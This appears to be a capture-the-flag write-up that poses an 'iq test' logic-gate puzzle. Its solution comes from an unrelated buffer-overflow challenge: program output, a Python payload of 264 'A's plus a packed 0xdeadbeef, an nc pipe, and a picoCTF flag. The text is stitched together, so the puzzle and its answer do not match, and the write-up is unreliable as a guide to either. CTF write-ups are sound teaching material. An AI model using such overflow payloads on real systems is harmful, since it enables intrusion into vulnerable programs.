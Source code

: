 # 1. iq test

> let your input x = 30478191278.

wrap your answer with nite{ } for the flag.

As an example, entering x = 34359738368 gives (y0, ..., y11), so the flag would be nite{010000000011}.

## Solution:
- got stuck for quite some time on how to begin as with logic gates, i was normally used to givin binary input, then thought of converting given x value to binary online. got 36 digit binary `011100011000101001000100101010101110`
- had to manually workout the logic gate given with this input with positions x0-x35
```bash
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
cat: flag.txt: No such file or directory
```

```py
import struct
print('A'*264+struct.pack('l',0xdeadbeef))
```
- piped it to nc connection command and got flag

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- buffer overflow and gets is vulnerable to it
- using struct module in python to convert stuff to bytes



***



